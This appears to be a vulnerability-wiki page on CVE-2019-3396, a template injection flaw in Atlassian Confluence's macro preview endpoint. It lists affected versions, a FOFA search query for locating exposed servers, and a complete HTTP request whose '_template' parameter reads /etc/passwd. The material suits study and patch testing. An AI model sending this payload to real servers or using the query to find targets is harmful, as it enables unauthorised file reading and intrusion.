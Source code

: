 # Atlassian Confluence preview SSTI template injection vulnerability CVE-2019-3396

## Vulnerability Description

Confluence is a professional enterprise knowledge management and collaboration software, often used to build enterprise wikis. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Atlassian Atlassian Confluence < 6.6.12</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Atlassian Atlassian Confluence 6.7.0-6.12.2</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Atlassian Atlassian Confluence < 6.13.3</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Atlassian Atlassian Confluence < 6.14.2</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="ATLASSIAN-Confluence"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630488806824-a8205673-933b-434b-8050-abcde3ef3e97.png)

Send a request packet

```php
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3670.0 Safari/537.36
Content-Type: application/json; charset=utf-8
Content-Length: 168

{"contentId":"786457","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"file:///etc/passwd"}}}
```